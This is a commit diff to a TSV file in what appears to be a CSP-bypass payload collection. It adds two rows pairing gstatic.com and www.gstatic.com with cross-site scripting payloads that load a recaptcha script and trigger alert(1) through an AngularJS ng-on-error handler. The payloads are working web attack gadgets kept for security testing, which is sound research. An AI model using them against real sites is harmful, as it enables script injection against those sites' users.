

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added gstatic captcha paths

```diff
--- a/data.tsv
+++ b/data.tsv
+row 51: gstatic.com | <script src='https://gstatic.com/recaptcha/about/js/main.min.js'></script><img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
+row 109: www.gstatic.com | <script src='https://www.gstatic.com/recaptcha/about/js/main.min.js'></script><img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
```
